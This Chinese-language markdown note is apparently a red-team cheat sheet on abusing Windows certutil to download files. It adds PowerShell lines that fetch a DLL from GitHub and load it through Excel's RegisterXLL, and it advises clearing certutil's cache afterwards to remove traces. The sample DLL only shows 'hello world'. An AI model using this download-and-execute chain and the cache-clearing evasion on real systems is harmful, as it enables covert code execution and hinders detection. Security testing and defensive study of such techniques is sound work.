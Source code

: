 ## certutil简介

[certutil简介](https://www.cnblogs.com/lfoder/p/8241548.html)

支持环境: XP  -  Windows 10 全系统

```certutil /?```  # 帮助


下载文件： ```certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/version.txt file.txt```

**清缓存** ```certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/version.txt delete```

**使用后需要注意清除缓存**

测试系统安装Office软件，下载执行dll对应的powershell代码如下：


     ```certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/msg.dll```
     
PS   ```$path="C:\Users\Administrator\msg.dll"```

PS   ```$excel = [activator]::CreateInstance([type]::GetTypeFromProgID("Excel.Application"))```

PS   ```$excel.RegisterXLL($path)```

excel 弹出 ```hello world,I'm 3kb```

**使用后需要注意清除缓存**

查看利用certUtil下载文件的缓存记录：

certutil.exe -urlcache *

缓存文件位置：

%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content
